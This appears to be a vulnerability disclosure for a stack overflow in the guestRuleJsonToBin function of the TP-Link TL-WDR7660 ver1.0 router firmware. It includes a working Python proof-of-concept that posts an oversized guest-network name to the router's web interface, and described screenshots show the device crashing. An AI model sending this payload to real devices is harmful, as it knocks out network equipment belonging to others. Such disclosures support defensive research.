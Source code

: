 **A stack overflow vulnerability exists in TL-WDR7660 version: TL-WDR7660 ver1.0**

The guestRuleJsonToBin function handles the important parameter string name without checking it. It can lead to stack overflow vulnerabilities.

![image](image/1.png)

**Exploit a vulnerability in the guestRuleJsonToBin function by sending a carefully constructed HTTP request**
```
url = "http://192.168.1.1/stok=B*qqlvYTn(bVsXtuytGm%2B0%5EP3nOE0dF~/ds " #COOKIE需要对应捕获
# 请求头
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# 请求体--漏洞利用json
data = {"guest_network":{"name":"a"*0x100000,"table":"guest_rule_2g","para":{"mon":"1","tue":"1","wed":"1","thu":"1","fri":"1","sat":"1","sun":"1","name":"name","start_time":"01%3A00","end_time":"02%3A00"}},"method":"add"}# 发送POST请求
response = requests.post(url, headers=headers, json=data)
# 输出响应内容
print(response.text)
```

**The following figure shows the result**

***(1)Before the above code is executed, the guest network runs normally, as shown in the following figure***

![image](image/2.png)

***(2)After executing the above code, modifying the guest network again shows that the request failed.***

![image](image/3.png)

***(3)After the refresh, the guest network module disappears and the system crashes***

![image](image/4.png)
